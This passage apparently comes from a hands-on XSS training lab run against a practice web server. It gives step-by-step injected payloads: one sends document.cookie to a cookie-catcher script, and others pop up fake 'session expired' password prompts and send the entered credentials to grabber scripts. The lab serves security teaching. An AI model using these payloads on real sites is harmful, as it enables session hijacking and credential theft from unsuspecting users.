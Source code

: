  
    This should pop-up an alert window with your message in it proving XSS is in fact possible and your cookie can be accessed.
    Ok, click OK and then click back and go back to http://54.172.112.249/xss_practice/
 
4. Now replace that alert script with:
 
    <script>document.location="http://54.172.112.249/xss_practice/cookie_catcher.php?c="+document.cookie</script>
 
 
This will actually pass your cookie to the cookie catcher that we have sitting on the webserver.
 
 
5. Now view the stolen cookie at:
    http://54.172.112.249/xss_practice/cookie_stealer_logs.html
 
 
The cookie catcher writes to this file and all we have to do is make sure that it has permissions to be written to.
 
 
 
 
 
 
############################
# A Better Way To Demo XSS #
############################
 
 
Let's take this to the next level. We can modify this attack to include some username/password collection. Paste all of this into the search box.
 
 
Use Firefox to browse to the following location:
 
    http://54.172.112.249/xss_practice/
 
 
 
Paste this in the search box
----------------------------
 
 
Option 1
--------
 
<script>
password=prompt('Your session is expired. Please enter your password to continue',' ');
document.write("<img src=\"http://54.172.112.249/xss_practice/passwordgrabber.php?password=" +password+"\">");
</script>
 
 
Now view the stolen cookie at:
    http://54.172.112.249/xss_practice/passwords.html
 
 
 
Option 2
--------
<script>
username=prompt('Please enter your username',' ');
password=prompt('Please enter your password',' ');
document.write("<img src=\"http://54.172.112.249/xss_practice/unpw_catcher.php?username="+username+"&password="+password+"\">");
</script>
 